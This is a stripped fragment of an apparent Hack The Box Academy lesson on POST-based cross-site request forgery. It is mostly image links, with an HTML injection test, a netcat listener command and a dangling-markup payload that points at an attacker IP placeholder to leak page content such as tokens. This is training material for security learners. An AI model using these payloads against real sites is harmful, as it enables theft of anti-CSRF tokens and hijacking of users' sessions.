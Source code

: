 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/153/section/1449
// Platform Version: V1
// Module ID: 153
// Module Name: Session Security
// Module Difficulty: Medium
// Section ID: 1449
// Section Title: Cross-Site Request Forgery (POST-based)
// Page Title: Session Security
// Page Number: 08
-->

# Cross-Site Request Forgery (POST-based)

**Module Name:** Session Security **Page Number:** 08

#### SESSION SECURITY

# Cross-Site Request Forgery (POST-based)

![https://academy.hackthebox.com/storage/modules/153/36.png](https://academy.hackthebox.com/storage/modules/153/36.png)

``` html
<h1>h1<u>underline<%2fu><%2fh1>
```

![https://academy.hackthebox.com/storage/modules/153/37.png](https://academy.hackthebox.com/storage/modules/153/37.png)

![https://academy.hackthebox.com/storage/modules/153/39.png](https://academy.hackthebox.com/storage/modules/153/39.png)

``` shell-session
[!bash!]$ nc -nlvp 8000
listening on [any] 8000 ...
```

``` html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

![https://academy.hackthebox.com/storage/modules/153/40.png](https://academy.hackthebox.com/storage/modules/153/40.png)

# 

# 

#### Questions

####